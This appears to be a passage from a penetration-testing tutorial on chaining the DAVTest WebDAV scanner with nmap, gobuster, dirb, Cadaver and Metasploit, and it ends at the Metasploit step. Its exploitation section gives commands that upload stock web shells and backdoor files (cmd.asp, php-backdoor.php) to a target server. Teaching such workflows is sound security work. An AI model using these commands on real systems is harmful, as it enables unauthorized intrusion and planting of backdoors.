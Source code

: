 
---

## 🔗 Integration with Other Tools

### Pre-DAVTest Reconnaissance Phase

#### Nmap Integration for WebDAV Discovery
```bash
# Comprehensive WebDAV discovery with nmap
nmap -p 80,443 --script http-enum target
nmap -p 80,443 --script http-webdav-scan target
nmap -p 80,443 --script http-methods --script-args http-methods.url-path=/webdav/ target

# Follow up with targeted davtest
davtest -url http://target/webdav
davtest -auth credentials -url http://target/webdav
```

#### Directory and Service Enumeration
```bash
# Use gobuster/dirb to find WebDAV paths
gobuster dir -u http://target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
dirb http://target /usr/share/wordlists/dirb/common.txt

# Then test discovered paths with davtest
davtest -url http://target/discovered_webdav_path
```

### Post-DAVTest Exploitation Phase

#### Integration with Cadaver for Manual Exploitation
**Workflow Integration:**
1. **DAVTest Assessment:** Identify upload and execution capabilities
2. **Cadaver Exploitation:** Manual file upload and management
3. **Combined Approach:** Automated testing followed by manual exploitation

```bash
# Assessment phase with davtest
davtest -auth user:pass -url http://target/webdav

# Manual exploitation phase with cadaver
cadaver http://target/webdav
# Enter credentials when prompted
# Use 'put' command to upload backdoor files
put /usr/share/webshells/asp/cmd.asp
put /usr/share/webshells/php/php-backdoor.php
```

#### Integration with Metasploit Framework
**Complete Exploitation Workflow:**
1. **DAVTest confirms capabilities:** ASP execution identified
2. **Metasploit module selection:** Use appropriate WebDAV exploit
3. **Payload delivery:** Automated exploitation based on DAVTest findings
